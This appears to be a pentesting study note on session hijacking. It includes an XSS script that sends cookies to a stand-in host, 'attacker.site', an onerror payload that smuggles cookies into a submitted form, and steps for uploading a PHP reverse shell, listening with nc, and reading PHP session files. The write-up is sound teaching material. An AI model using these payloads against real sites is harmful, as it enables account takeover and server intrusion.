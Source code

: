 Session Hijacking refers to the **exploitation of a valid session assigned to a user**. The attacker can get the victim’s session identifier using a few different methods, though typically an XSS is used.

A Session Hijack attack can happen by:

![session hijacking](images/sess-hijacking.png)

<br/>

# Example

The application does not properly sanitize the input in the comment field. So, the attacker can insert the malicious payload here:

![session hijacking example](images/sess-hijacking2.png)

![session hijacking example result](images/sess-hijacking3.png)

By using the following script, we will be able to steal the users cookies.

    <script>
     var i=new Image();
     i.src="http://attacker.site/steal.php?q="%2bdocument.cookie;
    </script>

cookie needs to be accessbile by javascript for this to work, and preventing it solves the problem.(HTTPOnly flag set to true)

<br/>

# Packet sniffing

You can also use wireshark if you are on the same network to sniff the session value.

![packet sniffing](images/packet-sniff.png)

<br/>

# Access the web server

Session data will be stored within the folder specified by the php.ini entry **session.save_path**. The attacker will focus on files names **sess_&lt;sessionID>**

In a real-world example, we could find the following entries:

    sess_ta9i1kqska407387itjfl57624

    sess_7o4l0kk5btl4e4qlok8r26tn12

If you want to hijack the user session related to the first entry,install a new cookie in your web browser using these values:

    cookie name: PHPSESSID
    cookie value: ta9i1kqska407387itjfl57624

The attack is very simple; however, it is critical that the attacker
can access the web server file system.

<br/>

### ASP.NET can store session data in three different locations:

![asp.net session](images/asp.png)

<br/>

# Payloads

    <div style="display: none;"> 
    <img src="fgfdgNotExistent" onerror="document.getElementById('form').onsubmit=function () {
    var hidden='<span style=\'display:none;\'>'+document.cookie+'</span>'; 
    document.getElementById('message').value+=hidden;}"/>
    </div>

![payload-example](images/payload-1.png)

Create a hidden div below the actual message

    <div style="display: none;">

This div will contain the actual payload and is used to hide the image.

Create an image with a non-existent path. This will trigger an error (because the image cannot be found), caught by the onerror event, that contains the actual payload

    <img src="fgfdgNotExistent" onerror=[PAYLOAD]

The payload will simply create a hidden span that will contain the document.cookie object value. This span will be appended to the object with ID being message. This object happens to be the Textarea form element that the victim will have to submit.

once the user submits the form, the cookie will be stored in the hidden span

![payload-example-2](images/payload-2.png)

![payload-example-3](images/payload-3.jpg)

<br/>

# Challenge 2 reverse shell



Find a script for reverse shell based on languange (php, python, ruby, perl, bash, etc) for this example we will use **PHP**.

Copy the script to a file and upload it to the server.(name it shell.php)

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


Change the ip and port to your own 

Type in the cmd **ifconfig** to find the ip address connected to the server/network. If the ip is 10.100.13.200 then change the **IP** in the script file to it.

    IP  : 10.100.13.200

    Port : 1234

Go to this link for the tutorial

https://pentestmonkey.net/tools/web-shells/php-reverse-shell

After uploading the script click on it in the browser and then type in the cmd **nc -nvlp 1234** to listen for the reverse shell. 

    nc -nvlp 1234

In the command line from the shell type this command to find the session_save_path:

    php -r 'echo session_save_path(), "\n";' 

Finally you can check the directory with **ls** and print the content with **cat**.

    ls 
    cat [file name]
